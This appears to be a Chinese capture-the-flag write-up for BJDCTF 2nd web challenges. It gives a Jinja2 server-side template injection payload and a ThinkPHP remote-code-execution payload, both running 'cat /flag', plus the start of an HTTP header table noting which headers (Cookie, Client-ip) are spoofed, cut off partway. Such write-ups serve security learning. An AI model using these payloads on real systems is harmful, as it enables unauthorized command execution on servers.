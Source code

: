 ```yaml
---
title: BJDCTF 2nd Web
urlname: bjdctf-2nd-web
tags: BUU
abbrlink: 15918
date: 2021-04-20 20:35:49
---
```


# BJDCTF 2nd 

## Web

### Fake google

```bash
/qaq?name={{config.__class__.__init__.__globals__['os'].popen('cat /flag').read()}}
```



### old-hack

```
http://c7c26058-4d64-4b02-be14-c7aaad68e492.node3.buuoj.cn/?s=1
```

```bash
/?s=captcha
_method=__construct&filter[]=system&method=get&get[]=cat /flag
```



### 假猪套天下第一

强行让我学到了很多关于http的header。也理解为什么这个标题叫这个了，好活。

开始时以为是sql注入得到admin，实际上是登陆其他用户即可，抓包响应页面的最底下有个注释。(加粗部分为本题需使用的头)

| Header              | 解释                                                         | 示例                                                         |
| ------------------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| Accept              | 指定客户端能够接收的内容类型                                 | Accept: text/plain, text/html,application/json               |
| Accept-Charset      | 浏览器可以接受的字符编码集。                                 | Accept-Charset: iso-8859-5                                   |
| Accept-Encoding     | 指定浏览器可以支持的web服务器返回内容压缩编码类型。          | Accept-Encoding: compress, gzip                              |
| Accept-Language     | 浏览器可接受的语言                                           | Accept-Language: en,zh                                       |
| Accept-Ranges       | 可以请求网页实体的一个或者多个子范围字段                     | Accept-Ranges: bytes                                         |
| Authorization       | HTTP授权的授权证书                                           | Authorization: Basic QWxhZGRpbjpvcGVuIHNlc2FtZQ==            |
| Cache-Control       | 指定请求和响应遵循的缓存机制                                 | Cache-Control: no-cache                                      |
| Connection          | 表示是否需要持久连接。（HTTP 1.1默认进行持久连接）           | Connection: close                                            |
| **Cookie**          | HTTP请求发送时，会把保存在该请求域名下的所有cookie值一起发送给web服务器。 | Cookie: $Version=1; Skin=new;                                |
| Content-Length      | 请求的内容长度                                               | Content-Length: 348                                          |
| Content-Type        | 请求的与实体对应的MIME信息                                   | Content-Type: application/x-www-form-urlencoded              |
| **Client-ip**       | A common requirement is to access the real client address from the server. | Client-ip: 127.0.0.1                                         |
| Date                | 请求发送的日期和时间                                         | Date: Tue, 15 Nov 2010 08:12:31 GMT                          |
| Expect              | 请求的特定的服务器行为                                       | Expect: 100-continue                                         |